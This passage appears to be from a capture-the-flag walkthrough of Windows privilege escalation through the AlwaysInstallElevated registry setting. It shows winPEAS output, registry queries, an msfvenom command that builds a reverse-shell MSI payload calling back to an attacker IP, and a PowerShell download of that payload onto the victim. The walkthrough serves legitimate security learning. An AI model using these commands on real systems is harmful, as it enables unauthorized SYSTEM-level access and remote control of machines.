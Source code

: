 ```c

...

����������͹ Checking AlwaysInstallElevated
�  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!

...

```

Here it shows ```AlwaysInstallElevated``` is enabled

```c
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If these registries are enabled with ```AlwaysInstallElevated```, we can run and install any ```.msi``` executables as ```NT AUTHORITY\SYSTEM```

Lets generate a malicious ```.msi``` executable through ```msfvenom```,

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=6767 -f msi -o backdoor.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: backdoor.msi
```

When we execute this ```backdoor.msi``` we will spawn a reverse shell with ```NT AUTHORITY\SYSTEM``` privilege

```c
C:\Users\Phoebe>powershell wget http://10.10.14.8:4545/backdoor.msi -outfile a.msi
powershell wget http://10.10.14.8:4545/backdoor.msi -outfile a.msi

C:\Users\Phoebe>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 56DE-BA30

 Directory of C:\Users\Phoebe

09/15/2021  02:10 AM    <DIR>          .
09/15/2021  02:10 AM    <DIR>          ..
04/12/2021  03:50 PM    <DIR>          3D Objects
09/15/2021  02:10 AM           159,744 a.msi
04/12/2021  03:50 PM    <DIR>          Contacts
04/13/2021  03:20 AM    <DIR>          Desktop
04/12/2021  03:50 PM    <DIR>          Documents
04/13/2021  09:55 AM    <DIR>          Downloads
04/12/2021  03:50 PM    <DIR>          Favorites
04/12/2021  03:50 PM    <DIR>          Links
04/12/2021  03:50 PM    <DIR>          Music
04/12/2021  03:52 PM    <DIR>          OneDrive
04/21/2021  07:01 AM    <DIR>          Pictures
09/15/2021  02:00 AM         1,924,608 privesc.exe
04/12/2021  03:50 PM    <DIR>          Saved Games
04/12/2021  03:51 PM    <DIR>          Searches
04/23/2021  03:39 AM    <DIR>          Videos
               2 File(s)      2,084,352 bytes
```